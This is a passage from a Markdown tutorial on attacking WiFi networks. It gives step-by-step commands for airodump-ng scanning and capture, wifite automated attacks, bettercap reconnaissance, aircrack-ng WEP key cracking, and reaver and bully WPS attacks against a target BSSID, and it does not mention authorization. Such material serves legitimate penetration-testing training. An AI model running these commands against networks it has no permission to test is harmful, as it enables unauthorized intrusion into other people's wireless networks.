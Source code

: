 ### **Step 2: Network Discovery**

1. **Using `airodump-ng`**
   - Start scanning for networks:
     ```bash
     sudo airodump-ng wlan0
     ```
   - Note the BSSID, channel, and ESSID of the target network.

2. **Graphical Interface with `wifite`**
   - Automate network discovery and attacks:
     ```bash
     sudo wifite
     ```
   - Wifite offers an easy-to-use interface and automates many attack vectors.

### **Step 3: Traffic Analysis and Capture**

1. **Packet Capture with `airodump-ng`**
   - Focus on the target network:
     ```bash
     sudo airodump-ng --bssid <BSSID> --channel <CH> -w capture wlan0
     ```

2. **Analyze Traffic with `bettercap`**
   - Start bettercap:
     ```bash
     sudo bettercap -iface wlan0
     ```
   - Use WiFi-specific modules to analyze and inject packets:
     ```bash
     wifi.recon on
     wifi.assoc <BSSID>
     ```

### **Step 4: Exploiting Vulnerabilities**

1. **WEP Encryption Exploitation**
   - Use `aircrack-ng` to crack WEP keys:
     ```bash
     sudo aircrack-ng -b <BSSID> -w wordlist.txt capture-01.cap
     ```

2. **WPS Vulnerability Testing**
   - Using `reaver`:
     ```bash
     sudo reaver -i wlan0 -b <BSSID> -vv
     ```
   - Using `bully`:
     ```bash
     sudo bully wlan0 -b <BSSID>
     ```

